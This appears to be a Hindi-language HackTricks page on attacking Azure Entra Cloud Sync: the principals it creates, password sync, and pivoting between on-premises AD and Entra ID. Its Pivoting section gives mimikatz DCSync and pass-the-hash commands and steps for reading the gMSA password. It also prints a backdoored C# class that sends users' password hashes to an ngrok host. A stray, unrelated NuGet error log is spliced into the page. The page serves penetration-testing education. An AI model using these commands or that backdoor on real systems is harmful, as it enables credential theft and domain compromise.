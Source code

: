 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Cloud Sync** मूल रूप से Azure का नया तरीका है **AD से Entra ID में उपयोगकर्ताओं को समन्वयित करने के लिए**।

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync Microsoft द्वारा एक नई पेशकश है जो उपयोगकर्ताओं, समूहों और संपर्कों को Microsoft Entra ID में समन्वयित करने के लिए आपके हाइब्रिड पहचान लक्ष्यों को पूरा करने और प्राप्त करने के लिए डिज़ाइन की गई है। यह Microsoft Entra Connect एप्लिकेशन के बजाय Microsoft Entra क्लाउड प्रोविजनिंग एजेंट का उपयोग करके इसे पूरा करता है। हालाँकि, इसे Microsoft Entra Connect Sync के साथ भी उपयोग किया जा सकता है।

### Principals Generated

इसका काम करने के लिए कुछ प्रिंसिपल Entra ID और On-Premise डायरेक्टरी में बनाए जाते हैं:

- Entra ID में उपयोगकर्ता `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) को **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`) भूमिका के साथ बनाया जाता है।

> [!WARNING]
> इस भूमिका में बहुत सारे विशेषाधिकार थे और इसका उपयोग [**विशेषाधिकारों को वैश्विक व्यवस्थापक तक बढ़ाने के लिए किया जा सकता था**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)। हालाँकि, Microsoft ने इस भूमिका के सभी विशेषाधिकारों को हटाने और इसे केवल एक नए **`microsoft.directory/onPremisesSynchronization/standard/read`** के साथ असाइन करने का निर्णय लिया है जो वास्तव में किसी भी विशेषाधिकार कार्रवाई (जैसे उपयोगकर्ता का पासवर्ड या विशेषताओं को संशोधित करना या SP में एक नई क्रेडेंशियल जोड़ना) की अनुमति नहीं देता है।

- Entra ID में समूह **`AAD DC Administrators`** भी बिना सदस्यों या मालिकों के बनाया जाता है। यह समूह उपयोगी है यदि [`Microsoft Entra Domain Services`](./az-domain-services.md) का उपयोग किया जाता है।

- AD में, या तो सेवा खाता **`provAgentgMSA`** को **`pGMSA_<id>$@domain.com`** जैसे SamAcountName के साथ बनाया जाता है (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), या एक कस्टम खाता [**इन विशेषाधिकारों की आवश्यकता है**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)। आमतौर पर डिफ़ॉल्ट खाता बनाया जाता है।

> [!WARNING]
> अन्य विशेषाधिकारों के बीच सेवा खाता **`provAgentgMSA`** के पास DCSync विशेषाधिकार हैं, जो **किसी भी व्यक्ति को जो इसे समझौता करता है, पूरे डायरेक्टरी को समझौता करने की अनुमति देता है**। [DCSync के बारे में अधिक जानकारी के लिए इसे देखें](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)।

> [!NOTE]
> डिफ़ॉल्ट रूप से, ज्ञात विशेषाधिकार समूहों के उपयोगकर्ता जैसे डोमेन व्यवस्थापक जिनका विशेषता **`adminCount` 1 है, Entra ID के साथ समन्वयित नहीं होते** सुरक्षा कारणों से। हालाँकि, अन्य उपयोगकर्ता जो इस विशेषता के बिना विशेषाधिकार समूहों का हिस्सा हैं या जिन्हें सीधे उच्च विशेषाधिकार सौंपे गए हैं **समन्वयित किए जा सकते हैं**।

## Password Sychronization

यह अनुभाग बहुत समान है:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **पासवर्ड हैश समन्वयन** सक्षम किया जा सकता है ताकि उपयोगकर्ता **AD से अपने पासवर्ड का उपयोग करके Entra ID में लॉगिन कर सकें**। इसके अलावा, जब भी AD में पासवर्ड संशोधित किया जाता है, यह Entra ID में अपडेट हो जाएगा।
- **पासवर्ड राइटबैक** को भी सक्षम किया जा सकता है, जिससे उपयोगकर्ता अपने पासवर्ड को Entra ID में संशोधित कर सकते हैं, स्वचालित रूप से अपने पासवर्ड को ऑन-प्रिमाइस डोमेन में समन्वयित कर सकते हैं। लेकिन [वर्तमान दस्तावेज़ों](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback) के अनुसार, इसके लिए Connect Agent का उपयोग करना आवश्यक है, इसलिए अधिक जानकारी के लिए [Az Connect Sync अनुभाग](./az-connect-sync.md) पर नज़र डालें।
- **समूह राइटबैक**: यह सुविधा Entra ID से समूह सदस्यताओं को ऑन-प्रिमाइस AD में वापस समन्वयित करने की अनुमति देती है। इसका मतलब है कि यदि किसी उपयोगकर्ता को Entra ID में एक समूह में जोड़ा जाता है, तो उन्हें AD में संबंधित समूह में भी जोड़ा जाएगा।

## Pivoting

### AD --> Entra ID

- यदि AD उपयोगकर्ताओं को AD से Entra ID में समन्वयित किया जा रहा है, तो AD से Entra ID में पिवट करना सीधा है, बस **किसी उपयोगकर्ता का पासवर्ड समझौता करें या किसी उपयोगकर्ता का पासवर्ड बदलें या एक नया उपयोगकर्ता बनाएं और जब तक यह Entra ID डायरेक्टरी में समन्वयित नहीं हो जाता (आमतौर पर केवल कुछ मिनट)**।

तो आप उदाहरण के लिए
- **`provAgentgMSA`** खाता समझौता करें, DCSync हमला करें, किसी उपयोगकर्ता का पासवर्ड क्रैक करें और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- बस AD में एक नया उपयोगकर्ता बनाएं, जब तक यह Entra ID में समन्वयित नहीं हो जाता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- AD में किसी उपयोगकर्ता का पासवर्ड संशोधित करें, जब तक यह Entra ID में समन्वयित नहीं हो जाता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।

**`provAgentgMSA`** क्रेडेंशियल्स को समझौता करने के लिए:
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
अब आप gMSA के हैश का उपयोग करके `provAgentgMSA` खाते के खिलाफ Entra ID के खिलाफ Pass-the-Hash हमले को अंजाम दे सकते हैं और DCSync हमलों को करने के लिए स्थिरता बनाए रख सकते हैं।

Active Directory को समझौता करने के तरीके के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> ध्यान दें कि Azure या EntraID भूमिकाएँ सिंक किए गए उपयोगकर्ताओं को उनके गुणों के आधार पर देने का कोई तरीका नहीं है, उदाहरण के लिए Cloud Sync कॉन्फ़िगरेशन में। हालाँकि, सिंक किए गए उपयोगकर्ताओं को स्वचालित रूप से अनुमतियाँ देने के लिए कुछ **AD से Entra ID समूहों** को अनुमतियाँ दी जा सकती हैं ताकि उन समूहों के अंदर सिंक किए गए उपयोगकर्ताओं को भी उन्हें प्राप्त हो सके या **गतिशील समूहों का उपयोग किया जा सकता है**, इसलिए हमेशा गतिशील नियमों और उन्हें दुरुपयोग करने के संभावित तरीकों की जांच करें:

{{#ref}}
../../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

स्थिरता के संबंध में [यह ब्लॉग पोस्ट](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) सुझाव देती है कि [**dnSpy**](https://github.com/dnSpy/dnSpy) का उपयोग करके **`Microsoft.Online.Passwordsynchronisation.dll`** को बैकडोर करना संभव है जो **`C:\Program Files\Microsoft Azure AD Sync\Bin`** में स्थित है और जिसका उपयोग Cloud Sync एजेंट द्वारा पासवर्ड समन्वयन करने के लिए किया जाता है, जिससे यह उपयोगकर्ताओं के पासवर्ड हैश को एक दूरस्थ सर्वर पर एक्सफिल्ट्रेट करता है। हैश **`PasswordHashGenerator`** वर्ग के अंदर उत्पन्न होते हैं और ब्लॉग पोस्ट सुझाव देता है कि कुछ कोड जोड़ा जाए ताकि वर्ग इस तरह दिखे (ध्यान दें `use System.Net` और पासवर्ड हैश को एक्सफिल्ट्रेट करने के लिए `WebClient` का उपयोग):
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.

### Entra ID --> AD

- यदि **Password Writeback** सक्षम है, तो आप Entra ID से कुछ उपयोगकर्ताओं का पासवर्ड संशोधित कर सकते हैं और यदि आपके पास AD नेटवर्क तक पहुंच है, तो उनके माध्यम से कनेक्ट करें। अधिक जानकारी के लिए [Az Connect Sync section](./az-connect-sync.md) अनुभाग देखें क्योंकि पासवर्ड राइटबैक उस एजेंट का उपयोग करके कॉन्फ़िगर किया गया है।

- इस समय Cloud Sync भी **"Microsoft Entra ID to AD"** की अनुमति देता है, लेकिन बहुत समय बाद मैंने पाया कि यह EntraID उपयोगकर्ताओं को AD में समन्वयित नहीं कर सकता और यह केवल उन EntraID उपयोगकर्ताओं को समन्वयित कर सकता है जो पासवर्ड हैश के साथ समन्वयित किए गए थे और उसी डोमेन वन के डोमेन से आते हैं जिसमें हम समन्वयित कर रहे हैं, जैसा कि आप पढ़ सकते हैं [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - ये समूह केवल ऑन-प्रिमाइसेस समन्वयित उपयोगकर्ताओं और / या अतिरिक्त क्लाउड द्वारा बनाए गए सुरक्षा समूहों को शामिल कर सकते हैं।
> - ऑन-प्रिमाइसेस उपयोगकर्ता खाते जो समन्वयित हैं और इस क्लाउड द्वारा बनाए गए सुरक्षा समूह के सदस्य हैं, वे उसी डोमेन या क्रॉस-डोमेन से हो सकते हैं, लेकिन वे सभी एक ही वन से होने चाहिए।

इसलिए इस सेवा की हमले की सतह (और उपयोगिता) काफी कम हो जाती है क्योंकि एक हमलावर को उन उपयोगकर्ताओं को समन्वयित करने के लिए प्रारंभिक AD से समझौता करना होगा ताकि दूसरे डोमेन में एक उपयोगकर्ता से समझौता किया जा सके (और दोनों को स्पष्ट रूप से एक ही वन में होना चाहिए)।

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../../banners/hacktricks-training.md}}
